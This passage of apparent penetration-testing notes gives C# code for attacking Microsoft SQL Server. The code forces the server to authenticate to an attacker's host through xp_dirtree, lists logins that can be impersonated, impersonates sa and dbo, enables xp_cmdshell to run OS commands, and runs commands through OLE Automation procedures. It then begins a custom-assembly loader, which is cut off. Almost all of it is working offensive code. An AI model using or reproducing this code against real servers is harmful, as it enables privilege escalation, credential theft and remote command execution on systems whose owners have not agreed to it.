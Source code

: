 ```csharp
            // Invoke xp_dirtree to coerce authentication on attacker's machine
            string lhost = args[0];
            sqlQuery($@"EXEC master..xp_dirtree '\\{lhost}\test';", con);
            Console.WriteLine($"[*] Invoked xp_dirtree against {lhost}");

            // Enumerate logins that we can impersonate
            result = sqlQuery("SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';", con);
            Console.WriteLine($"[*] Logins that can be impersonated:\n{result}");

            // Impersonate sa user
            result = sqlQuery("EXECUTE AS LOGIN = 'sa'; SELECT SYSTEM_USER;", con);
            Console.WriteLine($"[*] Executing in context of impersonated user: {result}");

            // Impersonate dbo database user
            result = sqlQuery("use msdb; EXECUTE AS USER = 'dbo'; SELECT USER;", con);
            Console.WriteLine($"[*] Executing in context of impersonated login: {result}");

            // Execute OS commands via xp_cmdshell
            sqlQuery("EXECUTE AS LOGIN = 'sa';", con);
            sqlQuery("EXEC sp_configure 'show advanced options',1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell',1; RECONFIGURE;", con);
            Console.WriteLine("[+] Enabled xp_cmdshell");
            result = sqlQuery("EXEC xp_cmdshell whoami", con);
            Console.WriteLine($"[*] xp_cmdshell: {result}");

            // Execute OS commands via Ole Automation Procedures
            sqlQuery("EXECUTE AS LOGIN = 'sa';", con);
            sqlQuery("EXEC sp_configure 'Ole Automation Procedures',1; RECONFIGURE; ", con);
            sqlQuery(@"DECLARE @myshell INT; EXEC sp_oacreate 'wscript.shell', @myshell OUTPUT; EXEC sp_oamethod @myshell, 'run', null, 'cmd /c echo Test > C:\Windows\Tasks\out.txt';", con);

            con.Close();
        }
    }
}
```
{% endcode %}



### Custom Assemblies

Load and trigger custom assembly:

{% code title="SqlCustomAssembly.cs" %}
```csharp
using System;
using System.Data.SqlClient;

namespace SqlProcedure
{
    class Program
    {
        static string sqlQuery(string query, SqlConnection con)
        {
            SqlCommand command = new SqlCommand(query, con);
            SqlDataReader reader = command.ExecuteReader();
            string result = "";
            try
            {
                while (reader.Read()) { result += $"{reader[0]}\n"; }
                result = result.Remove(result.Length - 1);
            }
```